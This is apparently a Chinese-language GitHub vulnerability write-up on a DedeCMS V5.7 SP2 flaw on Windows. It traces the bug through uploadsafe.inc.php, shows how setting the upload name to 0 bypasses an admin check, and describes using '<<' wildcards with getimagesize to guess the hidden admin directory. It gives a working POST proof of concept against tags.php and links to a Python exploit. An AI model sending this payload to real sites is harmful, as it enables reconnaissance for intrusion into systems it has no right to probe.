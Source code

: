 ##解决DEDECMS历史难题--找后台目录
###利用限制
* 仅针对windows系统

* DedeCMS目前下载的最新版的还存在此问题。（DedeCMS-V5.7-UTF8-SP2.tar.gz ）在网盘里找相应名字的就行

###漏洞成因
首先看核心文件common.inc.php 大概148行左右

```php
	if($_FILES)
	{
	    require_once(DEDEINC.'/uploadsafe.inc.php');
	}
```
跟进uploadsafe.inc.php文件，25行

```php
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
{
    exit('Request var not allow for uploadsafe!');
}
$$_key = $_FILES[$_key]['tmp_name']; //获取temp_name 
${$_key.'_name'} = $_FILES[$_key]['name'];
${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
if(empty(${$_key.'_size'}))
{
    ${$_key.'_size'} = @filesize($$_key);
}
$imtypes = array
(
    "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
    "image/xpng", "image/wbmp", "image/bmp"
);
if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
{
    $image_dd = @getimagesize($$_key); 
    //问题就在这里，获取文件的size，获取不到说明不是图片或者图片不存在，不存就exit upload.... ,利用这个逻辑猜目录的前提是目录内有图片格式的文件。
    if (!is_array($image_dd))
    {
        exit('Upload filetype not allow !');
    }
}
......
```

出发点是找个可以利用<<通配符猜解后台目录，所以只要`$$_key`参数可控就可以达到目的。

但在这之前有个`if(!defined('DEDEADMIN'))`的判断,这个很好绕过设置name为0就可以绕过。

因为这块第一个if判断`$_key.'_name'`是否为空，为空就不往下进行判断，所以给name赋值0就可以绕过了。

```php
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
```
最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回tag.php正常页面。当不存在的时候返回：Upload filetype not allow !

### POC
	http://localhost/dedecms/tags.php
	
	post:
	
	dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif

Common.inc.php 是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

上面是作者的原POC，有个小问题需要注意一下，POST的是tags.php 属于根目录下的文件，在根目录下没有tags.php的情况下，需要找一个包含common.inc.php的文件，在这种情况下只能找二级目录下的文件，例如：/plus /include

漏洞作者给的exp是PHP版本，[Dedecms找后台目录漏洞python版](https://github.com/zmzsg100/Cms-vuln-and-EXP/blob/master/find_dedeadmin.py) <-这是我的python版本